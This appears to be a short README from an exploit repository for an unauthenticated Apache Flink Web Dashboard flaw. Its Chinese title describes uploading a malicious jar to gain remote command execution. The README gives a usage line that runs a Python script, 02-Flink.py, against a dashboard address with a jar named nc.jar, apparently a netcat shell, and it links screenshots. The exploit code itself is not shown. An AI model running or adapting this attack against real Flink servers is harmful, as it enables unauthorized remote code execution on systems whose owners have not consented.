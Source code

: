 # Apache Flink Web Dashboard 未授权访问，上传恶意jar导致远程代码命令执行

![](./flink-nc.gif)

## python usage:

`python 02-Flink.py http://10.10.20.100:8081 nc.jar`

![](./flink.jpg)


